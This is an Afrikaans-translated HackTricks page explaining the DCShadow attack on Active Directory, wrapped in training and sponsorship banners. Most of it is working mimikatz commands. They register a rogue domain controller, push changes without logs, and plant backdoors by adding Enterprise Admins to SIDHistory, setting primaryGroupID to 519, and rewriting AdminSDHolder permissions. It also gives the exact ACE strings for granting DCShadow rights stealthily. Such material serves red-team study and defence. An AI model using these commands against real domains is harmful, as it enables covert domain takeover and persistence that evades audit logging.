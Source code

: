 {% hint style="success" %}
Leer & oefen AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}


# DCShadow

Dit registreer 'n **nuwe Domeinbeheerder** in die AD en gebruik dit om **atribute** (SIDHistory, SPNs...) op gespesifiseerde voorwerpe **te druk** **sonder** om enige **logs** oor die **wysigings** agter te laat. Jy **het DA** regte nodig en moet binne die **worteldomein** wees.\
Let daarop dat as jy verkeerde data gebruik, sal daar baie lelike logs verskyn.

Om die aanval uit te voer, het jy 2 mimikatz instansies nodig. Een van hulle sal die RPC bedieners met SYSTEM regte begin (jy moet hier die veranderinge aandui wat jy wil maak), en die ander instansie sal gebruik word om die waardes te druk:

{% code title="mimikatz1 (RPC servers)" %}
```bash
!+
!processtoken
lsadump::dcshadow /object:username /attribute:Description /value="My new description"
```
{% endcode %}

{% code title="mimikatz2 (push) - Vereis DA of soortgelyk" %}
```bash
lsadump::dcshadow /push
```
{% endcode %}

Let op dat **`elevate::token`** nie in `mimikatz1` sessie sal werk nie, aangesien dit die voorregte van die draad verhoog het, maar ons moet die **voorreg van die proses** verhoog.\
Jy kan ook 'n "LDAP" objek kies: `/object:CN=Administrator,CN=Users,DC=JEFFLAB,DC=local`

Jy kan die veranderinge vanaf 'n DA of vanaf 'n gebruiker met hierdie minimale toestemmings druk:

* In die **domein objek**:
* _DS-Install-Replica_ (Voeg/Verwyder Replica in Domein)
* _DS-Replication-Manage-Topology_ (Bestuur Replika Topologie)
* _DS-Replication-Synchronize_ (Replika Sinchronisasie)
* Die **Sites objek** (en sy kinders) in die **Konfigurasie houer**:
* _CreateChild en DeleteChild_
* Die objek van die **rekenaar wat geregistreer is as 'n DC**:
* _WriteProperty_ (Nie Skryf nie)
* Die **teiken objek**:
* _WriteProperty_ (Nie Skryf nie)

Jy kan [**Set-DCShadowPermissions**](https://github.com/samratashok/nishang/blob/master/ActiveDirectory/Set-DCShadowPermissions.ps1) gebruik om hierdie voorregte aan 'n onvoorregte gebruiker te gee (let op dat dit 'n paar logs sal agterlaat). Dit is baie meer beperkend as om DA voorregte te hê.\
Byvoorbeeld: `Set-DCShadowPermissions -FakeDC mcorp-student1 SAMAccountName root1user -Username student1 -Verbose`  Dit beteken dat die gebruikersnaam _**student1**_ wanneer hy aan die masjien _**mcorp-student1**_ ingelog is, DCShadow toestemmings oor die objek _**root1user**_ het.

## Gebruik DCShadow om agterdeure te skep

{% code title="Stel Enterprise Admins in SIDHistory na 'n gebruiker" %}
```bash
lsadump::dcshadow /object:student1 /attribute:SIDHistory /value:S-1-521-280534878-1496970234-700767426-519
```
{% endcode %}

{% code title="Verander PrimaryGroupID (sit gebruiker as lid van Domein Administrators)" %}
```bash
lsadump::dcshadow /object:student1 /attribute:primaryGroupID /value:519
```
{% endcode %}

{% code title="Wysig ntSecurityDescriptor van AdminSDHolder (gee Volle Beheer aan 'n gebruiker)" %}
```bash
#First, get the ACE of an admin already in the Security Descriptor of AdminSDHolder: SY, BA, DA or -519
(New-Object System.DirectoryServices.DirectoryEntry("LDAP://CN=Admin SDHolder,CN=System,DC=moneycorp,DC=local")).psbase.Objec tSecurity.sddl
#Second, add to the ACE permissions to your user and push it using DCShadow
lsadump::dcshadow /object:CN=AdminSDHolder,CN=System,DC=moneycorp,DC=local /attribute:ntSecurityDescriptor /value:<whole modified ACL>
```
{% endcode %}

## Shadowception - Gee DCShadow toestemmings met behulp van DCShadow (geen gewysigde toestemmingslogs)

Ons moet die volgende ACE's met ons gebruiker se SID aan die einde byvoeg:

* Op die domein objek:
* `(OA;;CR;1131f6ac-9c07-11d1-f79f-00c04fc2dcd2;;UserSID)`
* `(OA;;CR;9923a32a-3607-11d2-b9be-0000f87a36b2;;UserSID)`
* `(OA;;CR;1131f6ab-9c07-11d1-f79f-00c04fc2dcd2;;UserSID)`
* Op die aanvaller rekenaar objek: `(A;;WP;;;UserSID)`
* Op die teiken gebruiker objek: `(A;;WP;;;UserSID)`
* Op die Sites objek in Konfigurasie houer: `(A;CI;CCDC;;;UserSID)`

Om die huidige ACE van 'n objek te kry: `(New-Object System.DirectoryServices.DirectoryEntry("LDAP://DC=moneycorp,DC=loca l")).psbase.ObjectSecurity.sddl`

Let daarop dat jy in hierdie geval **verskeie veranderinge** moet maak, nie net een nie. So, in die **mimikatz1 sessie** (RPC bediener) gebruik die parameter **`/stack` met elke verandering** wat jy wil maak. Op hierdie manier, sal jy net een keer **`/push`** hoef te doen om al die gestopte veranderinge in die rogue bediener uit te voer.

[**Meer inligting oor DCShadow in ired.team.**](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/t1207-creating-rogue-domain-controllers-with-dcshadow)

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PR's in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
